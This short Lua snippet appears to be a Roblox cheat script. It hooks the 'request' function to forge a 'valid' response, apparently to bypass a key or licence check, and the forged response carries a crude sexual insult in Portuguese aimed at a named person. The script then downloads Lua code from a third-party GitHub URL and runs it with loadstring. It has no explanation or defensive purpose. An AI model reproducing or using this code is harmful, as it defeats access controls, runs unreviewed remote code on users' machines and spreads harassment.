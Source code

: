 local oldreq = request
    hookfunction(request, function(args)
            return {StatusCode=200, Body=game:GetService("HttpService"):JSONEncode({valid=true, message="zandona adora chupar um ovo depilado 🥶🥶"})}
    end)


loadstring(game:HttpGet("https://raw.githubusercontent.com/dadad213/GRANDSCRIPTO/refs/heads/main/script.lua"))()
